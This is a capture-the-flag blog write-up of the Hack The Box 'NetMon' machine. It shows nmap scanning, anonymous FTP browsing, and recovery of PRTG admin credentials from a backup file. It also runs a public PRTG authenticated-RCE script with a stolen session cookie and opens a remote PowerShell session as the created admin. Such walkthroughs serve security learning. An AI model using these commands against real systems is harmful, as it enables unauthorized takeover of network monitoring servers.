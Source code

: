 ```yaml
---
title: "HTB - NetMon"
date: 2021-02-12T14:56:25+01:00
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/02/NetMon_Logo.png"
---
```

An easy box according to HTB ranking and a not so easy one according to [this site](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). For me, it was really painful. Let me overshare!

## Recon

Quick recon based on HTB logo and info :

* Windows box ;
* Misc info : web, PowerShell, file misconfiguration ;
* Probably runs PRTG NetWork Monitor tool.

## Enum

```text
sudo nmap -T4 -A -p- -oA nmap $target_ip
```
```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-12 15:25 CET
Nmap scan report for $target_ip
Host is up (0.056s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/12%OT=21%CT=1%CU=31327%PV=Y%DS=2%DC=T%G=Y%TM=6026908
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=I%CI=I%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=A)OPS(O1=M54DNW8ST11%O2=M54
OS:DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W
OS:1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%
OS:O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD
OS:=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-02-12T14:28:15
|_  start_date: 2021-02-12T14:02:36

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   59.00 ms 10.10.14.1
2   59.12 ms $target_ip

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.62 seconds
```
We find a few interesting services :

* FTP server (21/tcp) : Microsoft ftpd, with anonymous login enabled ;
* Web server (80/tcp) : Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor) ;
* Remote powershell (5985/tcp) ;
* SMB and Netbios related services on ports 135/tcp, 139/tcp and 445/tcp ;
* HTTPAPI httpd 2.0 (SSDP/UPnP) on 47001/tcp ;
* Several high ports fo RPC.

Nikto scan reveals `PRTG` version `18.1.37.13946`, and the webpage displays a login page.

![Netmon Login](/images/2021/02/NetMon_PRTG_Login.png)

Default and common credentials won't work here.

Looking up `PRTG` on `searchploit` won't give us much : an authenticated RCE and a DoS exploit... and yes it works! But as fas I know, it is useless in our case. It means we'll have to dig deeper. Before that, let's continue to sratch the surface for other services, we are looking for an easy win! :)

We can also enumerate smb shares :

```text
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $target_ip
```
but nothing comes up!

Let's explore the FTP server. Here, we have access to quite a lot of files such as :

* Program Files ;
* Program Files (x86) (we now know that our OS is 64 bits) ;
* Users, Windows, Inetpub, etc.

In the `Users\Public` folder we will find our user flag.

![NetMon User Flag](/images/2021/02/NetMon_user_flag.png)

Now, I am guessing that the most relevant folder will be `/Program Files (x86)/PRTG Network Monitor` in which we might find useful info such as installation logs, and maybe even credentials if we are super lucky.

So far, we haven't found much... My guess is still with PRTG logs or something similar. I will then explore PRTG folder for anything interesting, and also common places we might have access to.

In order to make exploration more easier, I am using `FileZilla`.

## Exploitation

Enumerating username in the "Forgot password" page, tells us that the default `ptrgadmin` user exists :

![NetMon Forgot Password OK](/images/2021/02/NetMon_forgot_pass_OK.png)

Notice the slightly different error message when testing with a fake username (username == `zjdpdjpo`) :

![NetMon Forgot Password NOK](/images/2021/02/NetMon_forgot_pass_NOK.png)

While researching on internet where PRTG stores its credentials, I came across a few pages where it seems that our version leaks clear text password in the `ProgramData` folder. Now, I tried to access this folder from my FTP client and couldn't do it... I have been stuck here for HOURS! So I cheated, and checked official walk through. It turns out, I made a typo... and one can access the said folder and get some juicy files, especially `PRTG Configuration.old.bak`. Inside this file, we'll find Graal (or, do we?) :

![NetMon Credentials](/images/2021/02/NetMon_credentials.png)

Once again, and I have no idea why this time (probably another typo?) I also went stuck for too long. The password in the backup file ends in 2018, but unfortunately it doesn't work. One can assume it is an old password, and the year has changed, so has the password. Hence, I tried to replace the year with 2019, 2020, 2021 and even 2022 (current year + 1)... Nothing worked... I was really feeling down and cheated, again. It happens that the second password I tested was the correct one! I tried it again, and this time, it worked and I was finally inside the admin panel!

Now that we are authenticated, it is finally time to check our [Authenticated RCE we found earlier](https://www.exploit-db.com/exploits/46527).

We need to grab our authenticated cookie, `Burp Suite` can do that easily, then run the following command :

```text
./prtg-exploit.sh -u http://$target_ip -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"
```
Once it is done, the script should have created a new admin user called `pentest`.

Now, remember we also found a remote powershell running? Time to use it! I found that using a Powershell's docker was pretty easy :

```text
docker run -it  quickbreach/powershell-ntlm
```

From here, we connect to our remote machine :

```text
Enter-PSsession -ComputerName $target_ip -Authentication Negotiate -Credential pentest
```

One we are in, we simply browse to the flag dir and display it :

![NetMon Root Flag](/images/2021/02/NetMon_root_flag.png)

## Conclusion

While everything seemed pretty straightforward I spent way more time than I care to admit for stupid mistakes on my side. Which in the end made it a very exhausting box for me. Once again, we saw how nasty a few misconfiguration + CVE can be!

